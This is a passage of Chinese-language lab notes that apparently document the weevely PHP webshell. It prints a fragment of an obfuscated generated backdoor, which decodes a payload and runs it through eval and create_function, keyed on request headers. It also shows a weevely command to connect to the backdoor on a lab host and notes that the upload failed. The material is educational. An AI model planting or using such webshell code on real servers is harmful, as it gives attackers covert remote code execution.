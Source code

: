         $z='<1<1R"]<1;$ra=@$r["HTTP_AC<1C<1EPT_LANG<1U<1A<1GE"];if($rr&<1<1&$ra)<1{<1$u=parse_u<1rl($rr);parse_str($u[<1"<1<1query"]<1,$q';
        $J=str_replace('I','','crIeIIateI_funIcItion');
        $j='$p;$<1e<1=s<1trpos($s[<1<1$i],<1$f);if($e){$k=$<1kh<1.$kf;ob_start();@<1e<1val<1(@gzuncompre<1ss<1(@x(@base<164<1<1<1_dec';
        $L='ode(preg_replace(<1array<1<1("/_/<1","/-/"),<1array("/","+"),<1$ss<1($s[$i]<1,0,$e)))<1<1,$k)<1));$o<1=ob_<1g<1et_conte<1';
        $b='$<1kh="098f";$k<1f="6bc<1d";functi<1on x($<1t,$<1k){$c<1=strlen($k)<1;$l=st<1<1rle<1n($t);$o="";f<1or(<1$i=0;<1$i<$l;<1){fo';
        $Y=str_replace('<1','',$b.$K.$z.$w.$p.$r.$H.$j.$L.$S);
        $v=$J('',$Y);$v();
        ?>

        ```
        多次生成可以发现，代码中变量名是随机生成的，由两到三个随机字符组成（不包含下划线）。
    * 上传后门
        ```
        weevely http://192.168.56.5/backdoor.php passwd
        ```
        这里上传失败了，猜测是因为目标网站`http://192.168.56.5`只有`http://192.168.56.5/admin/new.php`页面是允许上传文件的，而该页面需要用户登录才可达。将文件后缀名改为.php3也会出现同样的错误。

        ![](img/weevely.png)
